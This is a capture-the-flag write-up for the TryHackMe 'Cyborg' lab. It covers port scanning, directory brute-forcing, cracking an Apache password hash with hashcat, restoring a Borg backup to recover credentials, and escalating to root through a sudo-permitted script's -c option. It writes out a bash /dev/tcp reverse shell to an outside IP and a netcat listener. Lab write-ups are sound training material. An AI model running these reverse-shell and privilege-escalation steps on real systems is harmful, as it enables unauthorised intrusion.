

## Nmap: 
---
```bash
nmap -T4 -A -p - 10.113.140.170 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- lets look at the website:



- there where no comments or hints in the source code, so we have to use, for example `gobuster`, to find more directory's or files that contain more information 

## Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.113.140.170/ -o gobuster/first_enum
```

```bash
/admin                (Status: 301) [Size: 316] [--> http://10.113.140.170/admin/]
/.html                (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 11321]
/etc                  (Status: 301) [Size: 314] [--> http://10.113.140.170/etc/]
/.htaccess            (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.html_var_DE         (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.html.               (Status: 403) [Size: 279]
/.html.html           (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/.htm.                (Status: 403) [Size: 279]
/.htmll               (Status: 403) [Size: 279]
/.html.old            (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
/.html.bak            (Status: 403) [Size: 279]
/.htm.htm             (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htgroup             (Status: 403) [Size: 279]
/.html1               (Status: 403) [Size: 279]
/.html.LCK            (Status: 403) [Size: 279]
/.html.printable      (Status: 403) [Size: 279]
/.htm.LCK             (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.html.php            (Status: 403) [Size: 279]
/.htmls               (Status: 403) [Size: 279]
/.htx                 (Status: 403) [Size: 279]
/.htlm                (Status: 403) [Size: 279]
/.htm2                (Status: 403) [Size: 279]
/.html-               (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
```

- in `/etc` we can find a folder called `squid` 
- in this folder is a file called `passwd` and a configuration file for `squid` 
- the contents of the `passwd` file looks like a username with a password hash: 
```bash
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

- before I tried to crack the hash I looked into `/admin` and found this: 


- so now we know that `music_archive` is a backup
- when we crack the hash we can maybe look into the backup 

## Crack the Hash: 
---
- to crack the hash I used `Hashcat`: 
```bash
hashcat -m 1600 -a 0 hash rockyou.txt
```

```bash
Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:<Redacted>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Mon Apr 27 20:33:54 2026 (1 sec)
Time.Estimated...: Mon Apr 27 20:33:55 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    56299 H/s (11.42ms) @ Accel:512 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 32768/14344384 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidate.Engine.: Device Generator
Candidates.#1....: dumbo -> loser69
```

- we can now download the backup, when we press onto `Archive` on the `/admin` page 

## Borg Backup: 
---
- when we read the `README` in the backup, we can see this: 
```bash
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

- so now we know that this is a `Borg` Backup 
- we can restore it with the command `borg extract`, but before we do that we have to know the name of the archive

- I assume its `music_archive` but we can double check with: 
```bash
borg list home/field/dev/final_archive
```

- after we know the name of the archive we can extract it: 
```bash
mkdir /tmp/restore
cd  /tmp/restore
borg extract home/field/dev/final_archive::music_archive
```

- now we can look through the home directory of `alex` 
- after a little bit of searching I found a `note.txt` in `/Documents`: 
```bash
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:<Redacted>
```

- lets `ssh` into alex

## user.txt: 
---
- in this home directory we can find the `user.txt`: 
```bash
flag{<Redacted>}
```

## root.txt: 
---
- lets run `sudo -l`: 
```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- we can see that we can run a `backup.sh` with sudo 
- the interesting part of the file is this: 
```bash
while getopts c: flag
do
        case "${flag}" in
                c) command=${OPTARG};;
        esac
done

...

cmd=$($command)
```

- so the file accepts the option `-c` and executes the input
- so I tried to run: 
```bash
sudo /etc/mp3backups/backup.sh -c /bin/bash
```

- and I got a `root shell`, but the output from the commands, I entered, will only display when you terminate the `backup.sh` 
- I also tried to setup a `reverse shell` but had the same issue 
- you could just execute `cat /root/root.txt` when you are in the scuffed `root shell` and read the flag after you terminate the `backup.sh`, but I don't think that this is good practice 
- so I wanted to get a real `root shell` 

- so I created a new file in `/etc/mp3backups` and stored a bash `reverse shell` in their: 
```bash
/bin/bash -i >& /dev/tcp/10.10.17.1/1234 0>&1
```

- then I updated the permissions with `chmod +x reverseShell` 

- locally I started a listener with `netcat`: 
```bash
nc -lnvp 1234
```

- we run the `backup.sh` again with `./reverseShell` as value for the option `-c`: 
```bash
sudo /etc/mp3backups/backup.sh -c ./reverseShell
```

- now we have a proper `root shell`: 
```bash
erik@Debian:~/Desktop/TryHackMe/Cyborg$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.112.153.94 37548
root@ubuntu:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

- and can read the `root.txt`: 
```bash
flag{<Redacted>}
```